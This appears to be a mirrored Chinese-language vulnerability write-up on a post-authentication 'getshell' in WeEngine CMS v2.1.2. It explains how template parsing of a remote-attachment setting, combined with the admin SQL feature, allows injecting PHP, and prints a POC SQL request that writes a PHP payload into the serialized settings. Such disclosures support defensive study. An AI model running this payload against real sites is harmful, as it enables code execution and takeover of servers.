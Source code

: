 # 微擎cms v2.1.2 后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3368](https://www.zhihuifly.com/t/topic/3368)

# 微擎cms v2.1.2 后台getshell

## 一、漏洞简介

需要登录后台，并且有高权限。

## 二、漏洞影响

v2.1.2

## 三、复现过程

这个洞首先需要一个高权账号。
问题出在模板解析这里(template.func.php)。

![image](img/f24587ffd94ecfc37dc94eccd219054c.png)

attachurl_remote来自于后台的设置,但是有一层htmlspecialchars

![image](img/5e8417d1e00c913a3ca8e15a55e22b1c.png)

![image](img/0055b6af34f914079d68097a740bf16b.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![image](img/9afebcd63a2a0425d24c93bf6be0fbc3.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

```
sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit 
```

最后刷新缓存然后打开有加载footer的页面就能getshell了

![image](img/5acd7a08337eed107dae071c8231e099.png)

![image](img/0df2a6d1dfd03ad8c34d11a0489cc22c.png)

![image](img/f33bc190538b1e32cfb3197b4c9ef48a.png)